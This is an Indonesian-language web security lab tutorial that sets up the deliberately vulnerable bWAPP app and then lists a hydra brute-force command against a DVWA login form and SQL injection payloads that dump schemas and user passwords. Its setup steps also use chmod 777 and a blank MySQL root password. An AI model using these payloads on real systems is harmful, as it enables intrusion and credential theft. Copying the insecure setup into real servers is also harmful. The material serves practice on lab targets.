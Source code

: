 # Keamanan Web
> Disusun oleh Hardiyanto

### Daftar Isi
* [Burp Suite](https://gitlab.com/dwiHard/LinuxAdministration/-/edit/master/webserver/KeamananWeb.md#burp-suite)
    * [Install bWapp](https://gitlab.com/dwiHard/LinuxAdministration/-/edit/master/webserver/KeamananWeb.md#install-bwapp)
    * [BruteForce](https://gitlab.com/dwiHard/LinuxAdministration/-/edit/master/webserver/KeamananWeb.md#bruteforce)
    * [SQL Injection](https://gitlab.com/dwiHard/LinuxAdministration/-/edit/master/webserver/KeamananWeb.md#sql-injection)


## Burp Suite

### Install bWapp
1. Download file [di sini](https://sourceforge.net/projects/bwapp/files/bWAPP/)
2. Extrak file
3. pidahkan file di /var/www/html untuk pengguna linux dan untuk pengguna windows di pindah di htdocs
4. Selanjutnya ketikkan **sudo chmod 755 -R bWAPP_latest**
5. Arahkan path **/var/www/html/bWAPP_latest/bWAPP**
6. Untuk selanjutnya **sudo chmod 777 password/ images/ documents/ logs/**
7. Kemudian edit admin/setting.php sesuikan dengan laptop Anda
```
$db_server = "localhost"; 	// your database server (IP/name), here 'localhost'
$db_username = "root";		// your MySQL user, here 'root'
$db_password = "";		// your MySQL password, here 'blank'
```
8. Buka browser ketikan pada url ```http://localhost/bWAPP_latest/bWAPP/install.php```
9. Lalu klik pada Click here to install bWAPP.
10. Lalu ketik url ```http://localhost/bWAPP_latest/bWAPP/login.php```

### BruteForce
```
hydra 192.168.xx.x -l admin -P /home/hard/Documents/password.txt http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect. :H-Cookie: security=low; PHPSESSID=xxxxxxxxxxxxxxxxxxxxxx"
```

### SQL Injection
```
1' OR 1=1#
1' OR 1=1 union all select system_user(),user()#
1' OR 1=1 union select null,schema_name from information_schema.schemata#
1' OR 1=1  union select null,table_name from information_schema.tables#
1' OR 1=1 union select null,@@datadir #
1' OR 1=1 union select null,concat(first_name,0x0a,password) from users #
1' UNION SELECT database(),2-- -
1' UNION SELECT user,password from users#
```

